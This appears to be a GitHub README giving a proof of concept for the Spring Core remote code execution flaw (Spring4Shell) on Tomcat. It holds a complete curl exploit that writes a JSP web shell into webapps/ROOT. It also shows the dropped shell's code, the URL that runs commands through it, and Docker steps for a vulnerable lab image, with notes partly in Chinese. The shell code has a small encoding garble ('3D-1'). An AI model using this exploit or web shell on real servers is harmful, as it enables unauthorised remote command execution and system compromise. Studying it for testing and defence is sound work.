 ## spring-core-rce

## POC

```bash
curl -v -H "c1: runtime" -H "c2: <%" -H "suffix: %>//" -d "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=" http://target:8080/path
```

The file is dropped to disk:

```
cat ./apache-tomcat-8.5.77/webapps/ROOT/tomcatwar.jsp 
- if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = -.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))3D-1){ out.println(new String(b)); } } -
```

shell: `target/tomcatwar.jsp?pwd=j&cmd=whoami`

ROOT.war 来自白帽汇的 vulfocus 镜像,直接放在 jdk9+ 的 tomcat 环境部署即可启动测试.

也可以自行使用 docker pull

```
docker run -d -p 8082:8080 --name springrce -it vulfocus/spring-core-rce-2022-03-29
```

然后访问 本地的 8082 端口，显示 OK,即运行成功


本地测试写入的文件截图:

<img width="1318" alt="image" src="https://user-images.githubusercontent.com/18260135/160864865-b1a1e71f-d462-45cf-9fbb-f1f20250c206.png">

Reference：https://github.com/jbaines-r7/spring4shell_vulnapp 

